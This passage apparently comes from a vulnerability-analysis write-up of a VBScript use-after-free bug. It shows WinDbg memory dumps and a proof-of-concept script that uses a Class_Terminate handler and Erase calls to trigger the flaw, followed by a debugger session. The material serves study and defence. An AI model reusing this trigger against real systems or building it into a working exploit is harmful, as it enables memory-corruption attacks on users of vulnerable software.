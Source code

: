 * `FADF_STATIC (0x0002)` - The array is statically allocated
* `FADF_FIXED_SIZE (0x0010)` - The array cannot be resized or reallocated

The contents of the array can be dumped as below:
```c++
0:000> dt ole32!tagVARIANT 0x04de0ff0
   +0x000 vt               : 3
   ...
   +0x008 lVal             : 0n1094795585
   ...
   +0x008 ulVal            : 0x41414141
   ...
```
We can observe that the element of `ArrA` has been populated now, and exactly matches the value passed in line 4 of `1.vbs`. The value of `vt` above is 3 which corresponds to the type `vbLong` (Long integer).

# Dissecting the vulnerability

Now, lets add few `MsgBox` to `poc.vbs` and save the file as `pocmsg.vbs`. The content of `pocmsg.vbs` is as follows:

```VBScript
Dim ArrA(1)
MsgBox "Creating ArrB now..."
Dim ArrB(1)

Class ClassVuln
    Private Sub Class_Terminate()
        Msg "Setting ArrB(0) to Arr(0)..."
        Set ArrB(0) = ArrA(0)
        ArrA(0) = 31337
    End Sub
End Class

Sub TriggerVuln
    MsgBox "Setting ArrA(0) to ClassVuln object ..."
    Set ArrA(0) = New ClassVuln
    MsgBox "Erasing ArrA now"
    Erase ArrA
    MsgBox "Erasing ArrB now"
    Erase ArrB
    MsgBox "ArrB Erased!"
End Sub

TriggerVuln
```
We will execute the `poc_msg.vbs` under debugger, on the intial break we will issue the following command and resume execution
> sxe ld vbscript
```c++
0:000> g
ModLoad: 6d7f0000 6d862000   C:\Windows\system32\vbscript.dll
eax=00ac0000 ebx=00000000 ecx=00241000 edx=00000000 esi=7ffdf000 edi=0023dc98
eip=771d70b4 esp=0023dbb0 ebp=0023dc04 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!KiFastSystemCallRet:
771d70b4 c3              ret
```
